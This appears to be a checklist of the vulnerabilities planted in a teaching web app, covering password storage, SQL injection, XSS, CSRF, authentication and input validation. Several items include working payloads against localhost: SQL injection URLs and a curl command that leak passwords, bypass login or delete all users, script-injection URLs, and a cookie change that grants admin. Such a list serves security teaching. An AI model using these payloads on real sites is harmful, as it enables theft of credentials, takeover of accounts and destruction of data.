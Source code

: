 #Vulnerabilities in the webapp
##Secure password storage


- [x] The password is not salted to prevent parallell attack and precomputated/rainbow tables.
- [x] The password is not hashed iteratively with bcrypt/scrypt/PBKDF2.
- [x] Need better password policy. Short passwords must be disallowed.
- [x] Password leak in HTML comment on show user page
	- `http://localhost:8080/user/<username>`
- [x] Password input field should be type=password.


##SQL injections


- [x] Show user 
	`http://localhost:8080/user/-1%27%20union%20all%20select%201,pass,3,4,5,6,%207%20from%20users%20where%20user=%27admin%27--%20-`
- [x] Bypass login form http://localhost:8080/login</p>
	`curl -v localhost:8080/login --data "pass=pwned&amp;user=foobar' UNION ALL SELECT -1,-1,'5e93de3efa544e85dcd6311732d28f95',-1,-1,-1,-1-- -"`
- [x] Admin user delete. Drop all users with
		`http://localhost:8080/admin/delete/foobar' or 1=1-- -`
- [x] Adding a movie review.
- [x] Edit user form.


##XSS

- [x] Reflected on, show user 
	`http://localhost:8080/user/foobar%3Cscript%3Ealert%281337%29%3C%2Fscript%3E`
(latest chromium's XSS auditor actually blocks this)
- [x] Reflected on logout message
	- `http://localhost:8080/?msg=aa%3Cscript%3Ealert%287%29%3C/script%3E`
- [x] Reflected on create user form on username field.
- [x] Persistent on show user. Email, bio and age. `http://localhost:8080/user/<username>`
- [x] Reflected on admin delete user page `http://localhost:8080/admin/delete/foobar%3Cscript%3Ealert%281337%29%3C%2Fscript%3E`


##CSRF

- [x] Login form
- [x] Edit user form
- [ ] Logout link `http://localhost.no:8080/logout`
- [x] Create user form
- [x] Delete user `http://localhost:8080/admin/delete/bob`
- [ ] Add movie review `http://localhost:8080/movies/8`

##Authentication mechanisms

- [x] Session id in cookie is not regenerated after login to prevent session fixation
- [x] Timing attack on the hash comparison because equals operator is used.
- [x] Cookie tampering allows normal users to become admin. On http://localhost:8080/admin with
	- `document.cookie='isadmin=yes'`;
- [x] Missing access control on the actual delete on `http://localhost:8080/admin/delete/<username>`


##Data validation

- [ ] Username can be arbitrarily long.
	- `a=$(php -r 'print str_repeat("A", 1000);')
	curl 'http://localhost:8080/user/new' --data "user=$a&amp;pass=&amp;submit=Create+new+user"`


#General other stuff

- [ ] The webapp should be served entirely over TLS. All requests towards HTTP should redirect to HTTPS. HSTS and secure cookie flag should be on. This requires additional hassle with configuration so students do not have to actually configure TLS. But it should be mentioned.
- [ ] Missing throttling and IP bans on excessive requests towards forms.
- [ ] The Slim debug variable should be set to false to minimize leakage of useful info, (e.g. system paths and technology stack).
